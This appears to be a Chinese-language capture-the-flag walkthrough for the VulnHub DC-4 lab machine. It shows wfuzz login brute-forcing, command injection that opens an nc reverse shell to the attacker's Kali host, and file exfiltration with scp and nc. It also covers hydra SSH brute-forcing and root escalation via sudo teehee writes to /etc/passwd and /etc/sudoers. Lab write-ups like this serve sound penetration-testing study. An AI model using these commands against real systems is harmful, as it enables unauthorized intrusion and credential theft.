



# DC4-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/dc-4,313/

**Description**

DC-4 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

Unlike the previous DC releases, this one is designed primarily for beginners/intermediates. There is only one flag, but technically, multiple entry points and just like last time, no clues.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.

**Technical Information**

DC-4 is a VirtualBox VM built on Debian 32 bit, so there should be no issues running it on most PCs.

If there are any issues running this VM in VMware, have a read through of this.

It is currently configured for Bridged Networking, however, this can be changed to suit your requirements. Networking is configured for DHCP.

Installation is simple - download it, unzip it, and then import it into VirtualBox and away you go.

**知识点**
- web 登录爆破 (前期)
- web 命令执行 (中期)
- 反弹 shell (中期)
- SSH 爆破 (后期)
- linux 提权 (后期)

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```


排除法,去掉自己、宿主机、网关, `192.168.141.137` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.137
```


一个 web ,一个 ssh,先看看 web 有什么信息


单纯一个登录页面,没有任何其他逻辑功能,比如密码找回、注册

那么接下来有几种手段，直接爆破账号密码，SQL注入，和爆破目录敏感文件等,这里都可以使用 wfuzz 进行完成

直接爆破弱口令试试，注意，这里名称叫做"Admin Information Systems Login" 那么账号名很可能就是 "admin" 或 "systems",密码字典可以直接使用 kali 自带的 `/usr/share/wordlists/rockyou.txt`

```bash
head -10000 /usr/share/wordlists/rockyou.txt > test.txt
wfuzz -v -w test.txt -d "username=admin&password=FUZZ" --hh 206 -u http://192.168.141.137/login.php
```

解释一下，第一句是把 rockyou.txt 前 10000 行单独创建为一个文件 test.txt，源文件太大了足足1000多W行，wfuzz直接无法识别字典。


可见,跑出了 payload 也就是密码 `happy`

---

# 中期-漏洞利用

直接登录发现存在运行执行代码的功能点




这里可以在 burp 中拦截请求,将 payload 改为我们需要的命令

这里 kali 做好监听
```bash
nc -lvp 4444
```

修改包执行回弹命令
```bash
nc -nv 192.168.141.134 4444 -e /bin/bash
```


此时 kali 以收到弹回的 shell，给他改成方便交互的

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```


---

# 后期-提权

接下来要想办法提权,查看能够登录的帐号
```bash
cat /etc/passwd | grep "/bin/bash"
```
```
root:x:0:0:root:/root:/bin/bash
charles:x:1001:1001:Charles,,,:/home/charles:/bin/bash
jim:x:1002:1002:Jim,,,:/home/jim:/bin/bash
sam:x:1003:1003:Sam,,,:/home/sam:/bin/bash
```

查看目录
```bash
ls /home/jim
ls /home/sam
ls /home/charles
ls /tmp
```
在 `/home/jim/` 下发现了 `mbox` 文件,但是没权限读,那么想办法登录 jim

在 `/home/jim/backups` 下发现了 `old-passwords.bak` 文件,用 `scp` 命令从靶机传到 kali 上去
```bash
scp /home/jim/backups/old-passwords.bak root@192.168.141.134:/
```


当然用 nc 也可以直接传
```bash
nc -nvlp 5555 > old-passwords.bak
nc 192.168.141.134 5555 < /home/jim/backups/old-passwords.bak
```

看了下 old-passwords.bak 内容,是个密码表,那么直接用它爆破 SSH
```bash
hydra -l jim -P /old-passwords.bak 192.168.141.137 ssh
```


登录,并查看 mbox 内容


看上去像是一份邮件,去 `/var/mail` 看看是否有信息



发现一份 charles 给 jim 的信,他要去度假，老板让他把密码给 jim,ok 收获 charles 密码 `^xHhA&hvim0y`

登录 charles 用户并尝试提权
```bash
su charles
sudo -l
```



Charles 可以使用 sudo 权限运行 teehee。teehee 可以干嘛？可以将标准输入复制到我们选择的文件中。那么我可以直接写一个 root 权限的用户到 /etc/passwd 下，也可以直接在 sudoers 里给 charles 所有权限

1. 直接写个 root 权限用户
    ```bash
    echo "test::0:0:::/bin/sh" | sudo teehee -a /etc/passwd
    su test
    whoami
    ```

    

2. 在 sudoers 里给 charles 所有权限
    ```bash
    echo "charles ALL=(ALL:ALL) ALL" | sudo teehee /etc/sudoers
    sudo -l
    sudo su
    ```

    

提权成功,感谢靶机作者 @DCUA7
